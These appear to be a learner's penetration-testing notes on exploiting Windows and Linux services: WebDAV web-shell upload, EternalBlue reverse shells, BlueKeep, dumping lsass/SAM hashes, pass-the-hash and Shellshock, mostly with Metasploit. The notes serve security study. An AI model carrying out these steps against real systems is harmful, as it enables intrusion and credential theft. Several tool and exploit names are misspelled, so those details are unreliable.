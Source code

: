 # Windows Vulns

- Each Windows version have many vulns associate with.
    - Information disclosure: Access confidential data
    - Buffer overflows 
    - Remote code execute
    - Priviege escalation
    - DOS

## Frequently exploited
- SMB (share files and folder)
- IIS (80, 443) - Web server
- WebDAV (80, 443) - File server for web
- RDP (Remote desktop protocol) ~ 3389
- WinRM (Windows remote management) ~ 5986,443

## Vulns scanning
- `search type:exploit name:<service>` search for exploit for some service
    - Sunglass service
        `set payload windows/meterpreter/reverse_tcp`

- `searchsploit <service>` command - search in exploit db
    - smb has exploit `external blue` on Windows 7/8/sv 2008 R2
- Another db exploit that we can use is [db_autopwn](https://github.com/hahwul/metasploit-autopwn)
    - Download the rb script, move it to /usr/share/metaspl../plugins/
    - On `msfconsole` run `load db_autopwn`
- `analyze` command on `msfconsole - Analyze the host and find vulns

## WebDAV

IIS, web server, provide admin GUI for management. IIS supported exe file extensions:
- asp
- aspx
- config
- php

WebDAV, enable a web server to functions as a file server for collaborative
    - WebDav implements auth in the form of username and password.
    - First step of exploit is identify webDAV has been config to run on IIS server
    - After get the legit credential, we can login and upload a malicious .asp payload
    - Tools: `davtest`, `cadaver`

Exploit steps:
- `nmap -sV -p 80,443 --script=http-enum <target>` - simple check if server have webDAV 
- Brute force auth using `hydra -L <wordlists_user> -P <wordlists_pass> <target> http-get <webDAV URI path>`
- Other way `davtest -url <target>/webdav`
    - `davtest -auth <username:pass> ....` output what file we can upload or execute on the webDAV
- `cadaver <target>` -> Provide user and password -> Interact with shell
    - Use web shell in `/usr/share/webshells/asp/webshell.asp` ~ `put <path>`
    - Lauch the webshell by click on it

## External blue:

**Manual**
- WannaCry using this exploit to spreading ransomware
- Specific tool [Auto Blue](https://github.com/3ndG4me/AutoBlue-MS17-010)
    - Define LHOST and port -> Gen shell code
    - Setup netcat listener `nc -nvlp 1234`
    - `python externalblue_exploit7.py <target> <shellcode_path>/sc_x64.bin
    - Netcat will open remote sessions

**Automation:** We can using msf `exploit/ ... ms17_010_externalblue` -> meterpreter.

## BlueKeep - RDP Vulns

CVE-2019-0708: This vulns target kernel space memory.

- `msf` exploit modules `cve_20..._bluekeep_rce`
    - Use `show targets` for display targets systems -> `set target <number>`
    - Must be set correct target!!
    - If RAM size too high, maybe exploit will fail.
    - Sometimes Windows system will crash during the exploit

### Badblue
- `search badblue`
- use `bablue_passthru` -> Meterpreter
- `pgrep lsass` -> `migrate <id>` -> check with `getuid`
- `load kiwi`
- `lsa_dump_sam` -> Get hash ntlm
- `hash_dump` to get LM hash

### Pass the hash
- We can use the hash as password for modules `exploit/windows/smb/psexec`
  - `set target` change target if needed.

- `crackmapexec smb <target> -u <user> -H <NTLM_hash>` `-H` as HASH

# Linux vulns

- Apache server
- SSH - 22
- FTP - 21/23
- SAMBA 445

## Shellshock 
- CGI script with some specical character in request can make Linux target execute bash script

Exploit by using burpsuite

[Ref](https://github.com/opsxcq/exploit-CVE-2014-6271)

**Steps**:
- `nmap --script http-shellshock --script-args "http-shellshock.uri=/gettime.cgi" <target>` - Scan for vuln
- Open burpsuite and intercept the request, change the user-agent to contains `() {:;};`

# Nessus

[Nessus Webpage](https://www.tenable.com/products/nessus)

[Lab enviroment](https://github.com/rapid7/metasploitable3)

- Download the free edition
- Change setting and + new scan -> target
- Nessus scan can be import into msf
    - `vulns -p 445` filter vuln for port 445
    - `search cve:<cve_id or year> name:<service>`

# WMAP

WMAP is web vulns scanner. WMAP is fully intergrated with MSF

- Open `msfconsole` -> `load wmap`
- `wmap_sites` Use to add, list and delelte, display site
    - `wmap -a <target>`
- `wmap_targets` add or changing target.
    - `wmap_targets -t <target_url>`
- `wmap_run` `-t` show available modules
    - `-e` Use all availabe modules
- `wmap_vulns -l` list vulns


- module `http_put` put or delete file on server
    - Set URI path Rhosts and run